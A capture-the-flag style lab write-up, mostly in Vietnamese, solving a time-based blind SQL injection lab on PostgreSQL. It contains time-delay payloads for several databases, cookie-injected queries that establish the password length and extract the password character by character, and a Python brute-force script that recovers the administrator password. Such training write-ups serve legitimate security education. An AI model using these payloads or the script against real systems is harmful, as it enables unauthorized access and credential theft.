 # Lab: Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

# Overview:

Theo tiêu đề của lab, chúng ta sẽ thực hiện tấn công SQL mà kết quả trở về có độ trễ. Từ đó ta có thêm thời gian thực thi câu lệnh SQL để thực hiện các cuộc tấn công khác.

Goal của chúng ta là cần inject query đối với time delays thích hợp.

Cheat sheet, time-delay mà lab đưa ví dụ khá là nhiều cho các version database. Vì ko biết sử dụng cái nào mình phải mò từng cái

```
Oracle: dbms_pipe.receive_message(('a'),10)
Microsoft: WAITFOR DELAY '0:0:10'
PostgreSQL: SELECT pg_sleep(10)
MySQL: SELECT sleep(10) 
```

# Solution:

```
SELECT trackingId FROM someTable WHERE trackingId = 'vvv' || (<CODE HERE>) || ''
```

**vvv là giá trị của cookie**

Kí tự đầu tiên được inject vào là `'` sau `vvv`, sau đó mình nối với output của code. Tiếp theo là nối với `'`. Đối với Oracle và PostgreSQL, `||` được sử dụng để ghép nối, với Microsoft `+` và  MySQL là `khoảng trắng`.

Đồi với PostgreSQL inject `'||(SELECT pg_sleep(10))||'`, query cần thời gian giải để hoàn thành: 10.241s. Thường thì đối với mình, query mất khoảng 240millis.Vậy thêm 10 đến từ việc inject

![image](https://user-images.githubusercontent.com/115911041/234800969-b0ba8d28-7555-4c02-94a4-c91e27544904.png)


## Xác định tên table và column cũng như là username:

Bây giờ ta đã biết database đang chạy version nào, bước tiếp theo:

- Xác định table `users` có tồn tại hay không

- Xác định columns `username` và `password`

- Tìm Entry của username `administrtor`

Mình đã giảm xuống delay đến 3 secs để cho nó tiện hơn.

`'||(SELECT pg_sleep(3) FROM users LIMIT 1)||'`

![image](https://user-images.githubusercontent.com/115911041/234802100-7a17b2a6-0262-4c8f-bfb1-40b98f5e3d28.png)

`'||(SELECT pg_sleep(3)||username||password FROM users LIMIT 1)||'`

![image](https://user-images.githubusercontent.com/115911041/234802664-9461a3b5-b35c-49a8-b45d-fcddb8035404.png)

`'||(SELECT pg_sleep(3)||username||password FROM users WHERE username='administrator')||'`

![image](https://user-images.githubusercontent.com/115911041/234802886-5d458454-fe78-47af-9dce-7e6013a61514.png)

Cả 3 query đều hơn 3 secs, trong khi sử dụng các tên table khác nhau hoặc cột hoặc sử dụng tên username, thì phản hồi có ngay.

Vậy table có tồn tại với column `username` và `password`, bao gồm entry cho `administrator` như là username.

## Xác định độ dài của password

```
'SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- 
```

Nếu có tồn tại username  `administrator` và độ dài của chuỗi password > 1 thì khi đó, kết quả trả về sẽ có độ trễ.

![image](https://user-images.githubusercontent.com/115911041/235216254-c7662cbe-9f7d-4dd6-a168-1ce1eb14720d.png)

![image](https://user-images.githubusercontent.com/115911041/235216375-731a14d0-67e8-4b9f-bb39-95817bc22adf.png)

![image](https://user-images.githubusercontent.com/115911041/235216474-37fa7754-dd1d-4eab-963a-ae1efe8e1c58.png)

Vậy độ dài của password là 20

# Liệt kê password

Để liệt kê password thì khá đơn giản, chỉ bằng cách kiểm tra từng kí tự của passowrd thay vì độ dài. Mình sử dụng resource pool cũ giống ở trên

`'||(SELECT pg_sleep(3) FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a')||'`

![image](https://user-images.githubusercontent.com/115911041/235217181-7192945f-2b07-42a5-9351-772297509ffa.png)

Sử dụng Burp Intruder, Attack Type: **Cluster bomb**

Payload 1: numeric

Payload 2: brute force









# Script python
```
import requests
import string
from requests.exceptions import Timeout

characters = list(string.ascii_lowercase)
characters += list(string.digits)
url = "" #Target URL
length = 20
result = ''

print("[+] Extract Info")

for i in range(1, length+1):
    for char in characters:
        payload = "a'%%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,%i,1)='%s')+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END+FROM+users--" %(i, char)
        print("Tring Number %i with: " %(i), char)
        cookie = {"TrackingId":payload}
        try:
            requests.get(url, cookies=cookie , timeout=5)
        except Timeout:
            result += char
            break

    print("[+] Result is : ", result)
```



